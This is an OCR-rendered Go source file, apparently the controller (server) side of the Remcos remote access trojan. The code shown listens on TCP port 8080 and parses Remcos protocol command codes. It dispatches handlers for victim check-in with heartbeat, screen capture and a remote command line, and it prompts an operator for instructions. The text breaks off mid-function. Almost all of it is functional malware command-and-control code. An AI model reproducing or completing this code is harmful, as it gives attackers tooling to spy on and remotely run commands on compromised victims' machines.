 ```plain
package main

import (
    "Client_Remcos/remcos_xx"
    "bufio"
    "encoding/hex"
    "fmt"
    "net"
    "os"
)

func main() {
    client_Remcos("0.0.0.0", "8080")
}

func client_Remcos(address, port string) {
    // 创建监听器
    listener, err := net.Listen("tcp", address+":"+port)
    if err != nil {
        fmt.Println("Error listening:", err.Error())
        return
    }
    defer listener.Close()

    fmt.Println("Server started. Listening on " + address + ":" + port)

    for {
        conn, err := listener.Accept()
        if err != nil {
            fmt.Println("Error accepting connection:", err.Error())
            return
        }
        // 处理服务端连接
        go handle_Remcos_Connection(conn)
    }
}

func handle_Remcos_Connection(conn net.Conn) {
    defer conn.Close()

    recvdata, err := remcos_xx.RecvBuf(conn)
    if err != nil {
        fmt.Println(err.Error())
        panic(0)
    }
    command := remcos_xx.ParseCommand(recvdata[:4])

    switch hex.EncodeToString(command) {
    case "0000004b":
        fmt.Println("初始化连接......")
        remcos_xx.Initconnect(conn)
        go remcos_xx.Heartbeat(conn)
    case "00000010":
        remcos_xx.Command_Screen_Capture(conn)
        return
    case "00000093":
        remcos_xx.Command_Command_Line(conn)
        return
    }

    for {
        fmt.Println("请输入指令：")
        reader := bufio.NewScanner(os.Stdin)
```